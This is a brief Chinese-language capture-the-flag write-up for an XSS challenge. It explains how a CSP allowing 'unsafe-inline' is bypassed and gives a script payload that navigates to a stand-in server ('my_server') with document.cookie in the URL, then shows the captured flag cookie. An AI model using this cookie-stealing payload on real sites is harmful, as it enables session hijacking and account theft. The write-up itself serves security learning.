XSS-1 400 points
================

题意
-------------

Are you good at XSS attack & CSP?

http://host:port

解题步骤
-------------

首先进去看了一下 CSP 限制的类型，为 `default-src 'self'; script-src 'self' 'unsafe-inline'` 。于是采用方法绕过了 CSP 的限制，拿到了 Cookie。输入：

```
<script type="text/javascript">
var a=document.createElement("a");
a.href="http://my_server/?cookie="+escape(document.cookie);
a.click();
</script>
```

拿到 `Cookie: admin=THUCTF{BeVEn_CSP_you_G37_mY_C00K1e}`。